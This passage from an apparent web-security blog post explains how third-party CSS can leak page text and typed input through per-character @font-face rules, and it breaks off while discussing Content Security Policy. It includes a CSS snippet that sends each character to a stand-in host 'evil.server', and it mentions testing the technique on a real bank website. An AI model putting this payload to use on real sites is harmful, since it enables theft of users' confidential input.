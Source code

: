 If the secret important data on your website is not on the attribute, but rather being part of a text, you may think you are safe from 3rd party CSS, because there's no inner text selector in CSS.

However, there's still tricks up the 3rd party CSS sleeves: **fonts**.

A 3rd party CSS can declare a `font-family` that requires a different font file for different character, which means it could be use to determine what are the characters there is in the selected text.

However, there's a limitation to this, which is, there's no way telling the order and number of occurence of the characters. Because, the font files would be cached by the browser, and will not be fetched again with another occurence of the same character.

```css
@font-face {
  font-family: evil;
  src: url('http://evil.server/key=A') format('woff');
  unicode-range: U+41;
}

@font-face {
  font-family: evil;
  src: url('http://evil.server/key=B') format('woff');
  unicode-range: U+42;
}

element {
  font-family: evil;
}
```

This could be apply to `<input>` as well. As the user types in their confidential information, character by character, the browser fetches the font file, and the `evil.server` will know which characters the user has typed into the input.

## Content Security Policy

While I was trying to reading attributes from a local bank website, (to try out the feasibility of the techniques above), I couldn't load the background image from my `localhost` server.

![content security policy](./images/csp.png)

It says my request to my image gets blocked by [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

So I checked the response of the webpage, and found out the following CSP header in the network tab.
